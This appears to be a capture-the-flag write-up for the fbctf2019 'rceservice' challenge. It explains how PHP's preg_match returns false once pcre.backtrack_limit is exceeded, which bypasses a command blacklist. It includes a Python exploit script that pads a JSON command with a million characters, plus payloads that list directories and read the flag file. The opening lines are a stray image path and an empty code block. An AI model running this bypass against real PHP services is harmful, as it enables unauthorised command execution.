 ```php

?>
```

It uses `preg_match()` to block a lot of patterns.

But we know that PHP has `pcre.backtrack_limit`, and the value of it is `1000000` by default.

When the regex matching backtrack more than `1000000` times, the `preg_match` will return `false` directly.

(Detail: https://www.php.net/manual/en/pcre.configuration.php)

![](https://github.com/w181496/CTF/raw/master/fbctf2019/rceservice/pcre.png)

([regex101](https://regex101.com) is your good friend)

You can test this special feature on your php console:

```
php > var_dump(preg_match("/union.+select/is", "union select /*".str_repeat("s", 1000000)));
bool(false)
php > var_dump(preg_match("/union.+select/is", "union select /*".str_repeat("s", 1)));
int(1)
```

So if the number of backtracking times exceeds the limit, the `preg_match` will return `false` and then bypass the `if` check.

Exploit script:

```python
import requests

payload = '{"cmd":"ls /","zz":"' + "a"*(1000000) + '"}'

r = requests.post("http://challenges.fbctf.com:8085/", data={"cmd":payload})
print r.text
```


e.g.

`'{"cmd":"ls -al /home/rceservice/","zz":"' + "a"*(1000000) + '"}'`

=>

```
drwxr-xr-x 1 root root       4096 May 26 21:20 ..
-r--r--r-- 1 root rceservice   43 May 23 03:58 flag
dr-xr-xr-x 1 root rceservice 4096 May 26 21:20 jail
```

Bypass successfully!

Now, let's read flag:

`'{"cmd":"/bin/cat /home/rceservice/flag","zz":"' + "a"*(1000000) + '"}'`

=> `fb{pr3g_M@tcH_m@K3s_m3_w@Nt_t0_cry!!1!!1!}`
